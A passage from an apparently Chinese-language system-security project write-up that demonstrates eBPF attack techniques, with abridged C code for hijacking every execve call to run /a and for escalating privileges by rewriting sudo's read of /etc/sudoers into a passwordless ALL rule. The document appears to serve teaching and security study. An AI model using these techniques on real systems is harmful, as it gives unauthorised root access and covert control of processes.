 <div style="text-align: center;">
<img src="/assets/images/sec/syssec/project/img7.png" width="100%" style="margin: 0 auto;">
</div>

#### 劫持新建进程

exechijack 程序会劫持所有用于创建新进程的 execve 系统调用，转而调用 /a，即只输出 uid 和 argv[0]：

```cpp
SEC("tp/syscalls/sys_enter_execve")
int handle_execve_enter(struct trace_event_raw_sys_enter *ctx) {
    ···
    // 读取当前 execve 系统调用新建的进程信息
    bpf_probe_read_user(&prog_name, TASK_COMM_LEN, (void*)ctx->args[0]);
    bpf_probe_read_user(&prog_name_orig, TASK_COMM_LEN, (void*)ctx->args[0]);

    // 修改程序路径为 /a
    prog_name[0] = '/';
    prog_name[1] = 'a';
    for (int i = 2; i < TASK_COMM_LEN ; i++) {
        prog_name[i] = '\x00';
    }
    long ret = bpf_probe_write_user((void*)ctx->args[0], &prog_name, 3);
    ···
}
```

运行 exechijack 程序后，所有新进程都会被劫持转而运行 /a：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/project/img8.png" width="90%" style="margin: 0 auto;">
</div>

#### 用户提权

sudo 命令在执行时会读取 `/etc/sudoers` 文件，查询其中的权限，查询当前执行命令的用户是否有 sudo 权限，是否需要密码等。我们可以拦截 sudo 对 `/etc/sudoers` 文件的读取，并用 `ALL=(ALL:ALL) NOPASSWD:ALL #` 覆盖第一行，使 sudo 认为该用户可以不需要密码执行 sudo 命令，从而实现用户提权。

```cpp
SEC("tp/syscalls/sys_exit_read")
int handle_read_exit(struct trace_event_raw_sys_exit *ctx) {
    ···     // 写入用户名
    sprintf(skel->rodata->payload, "%s ALL=(ALL:ALL) NOPASSWD:ALL #", env.username); 
    skel->rodata->payload_len = strlen(skel->rodata->payload);
    ···     // 修改 /etc/sudoers 文件内容，并在修改内容后加上 # 注释
    char local_buff[max_payload_len] = { 0x00 };
    bpf_probe_read(&local_buff, max_payload_len, (void*)buff_addr);
    for (unsigned int i = 0; i < max_payload_len; i++) {
        if (i >= payload_len) { local_buff[i] = '#'; }
        else { local_buff[i] = payload[i]; }
    }
    // 写入修改后的内容
    long ret = bpf_probe_write_user((void*)buff_addr, local_buff, max_payload_len);
    ···
}
```
